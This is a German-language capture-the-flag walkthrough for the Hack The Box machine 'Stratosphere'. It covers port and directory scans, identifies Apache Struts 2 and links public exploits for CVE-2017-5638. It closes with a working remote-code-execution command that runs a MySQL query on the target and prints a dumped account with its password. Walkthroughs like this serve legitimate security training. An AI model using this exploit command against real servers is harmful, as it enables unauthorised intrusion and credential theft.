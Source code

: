# 	Stratosphere

 Ein kurzes Tutorial für die Maschine "Stratosphere" von hackthebox.eu

 https://www.hackthebox.eu/home/machines/profile/129

Die Maschine lehrt den Umgang mit NMAP, Exploits und Remote Code Executions

Einschätzung:

![NMAP](stratosphere/einschaetzung.png)
 
## Anleitung


 1. NMAP Scan 

    ![NMAP](stratosphere/1-nmapScan.png)
    ![NMAP](stratosphere/2-nmapScan.png)


 2. Dirb Scan

    ![NMAP](stratosphere/3-dirbScan.png)

 3. Besuch auf Port 80 und 8080

    ![NMAP](stratosphere/4-website.png)

 4. Besuch in /manager Verzeichnis liefert Hinweise auf Apache Tomcat Server. 

    ![NMAP](stratosphere/7-managerTomcat.png)

 5. Besuch in /Monitoring Verzeichnis

    ![NMAP](stratosphere/5-websiteSlashMonitoring.png)
    ![NMAP](stratosphere/6-websiteSlashMonitoring.png)

    Das /Monitoring Verzeichnis verweist auf die URL "http://10.10.10.64:8080/Monitoring/example/Welcome.action", welche weitere Hinweise auf den Verwendeten Service gibt. Die ".action" und ".do" Endungen sind Konventionen von Apache Struts 2. (Siehe https://coderanch.com/t/610334/frameworks/action)

    Auf der Suche nach Sicherheitslücken für Struts 2 wird man sehr schnell fündig.

    "https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede"
    "https://github.com/mazen160/struts-pwn_CVE-2018-11776"

 6. Testen von passendem Exploit über NMAP Vulnerability Scanner

    ![NMAP](stratosphere/8-nmapVulnScan.png)

 7. Exoloitation
 
    ```bash
    # python strutsrce.py http://10.10.10.64:8080/Monitoring/ 'mysql -u admin -padmin -e "use     users;select * from accounts"'
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: mysql -u admin -padmin -e "use users;select * from accounts"

    fullName        password        username
    Richard F. Smith        9tc*rhKuG5TyXvUJOrE^5CK7k       richard
    ```
    
    

